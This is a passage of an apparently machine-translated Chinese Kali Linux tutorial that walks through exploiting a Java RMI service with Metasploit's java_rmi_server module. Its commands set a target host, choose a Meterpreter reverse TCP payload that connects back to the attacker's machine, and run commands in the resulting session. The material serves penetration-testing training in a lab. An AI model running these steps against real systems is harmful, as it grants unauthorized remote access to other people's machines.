[](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-2/)

The Java RMI service running on the victim.

### **第六步**:在 msfconsole 中搜索&使用模块。

```
msf> search java_rmi
msf> info exploit/multi/misc/java_rmi_server
msf> use exploit/multi/misc/java_rmi_server
```

[](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-3/)

Searching for matching module

[](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-4/)

using the module

现在你可以看到提示已经改变了。我们可以通过以下方式查看选项

```
>show options
```

设置 RHOST，它是运行易受攻击服务的目标。

```
set RHOST 192.168.0.104
```

记住设置所有具有“要求是”值的选项。请参见选项表。还要检查 RPORT 是否也正确。检查 nmap 结果&当前设置的端口，看看是否匹配。

接下来，我们必须设置所有必需的选项&有效载荷。首先，我们必须寻找兼容的有效载荷。所有有效负载可能与当前模块不兼容。

```
>show payloads
```

然后为了设置它，复制路径& issue:

```
>set PAYLOAD java/meterpreter/reverse_tcp
```

Meterpreter 是最先进的有效载荷。我们可以从这个强大的有效载荷中获得很多乐趣。我们稍后将讨论这一点。

现在设置 LHOST，它是有效负载必须返回连接的机器。记住要给出完整的 ip 地址，而不是本地主机或 127.0.0.1 等

```
set LHOST 192.168.0.103
```

如果需要，您可以更改监听端口

```
set LPORT 4445
```

现在都准备好了

```
>exploit
```

[](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-5/)

Setting options & Exploiting

现在我们在 meterpreter 中，我们已经成功地利用了一个服务并获得了对我们的受害者的访问。你可以用 meterpreter 做很多选择。现在让我们尝试简单的命令。

```
meterpreter> ifconfig
meterpreter>getuid
```

[](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-15/)

Inside Meterpreter

您可以使用 meterpreter，通过发出“help”来尝试帮助部分。你自己试试。

### **第七步**:简述一下。

由于这篇文章有点冗长，我简单地附上了这个过程的截图。

[](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-14/)

Brief Procedure

我们将在后面的教程中看到更多关于高级漏洞分析&在真实机器中发现更多漏洞。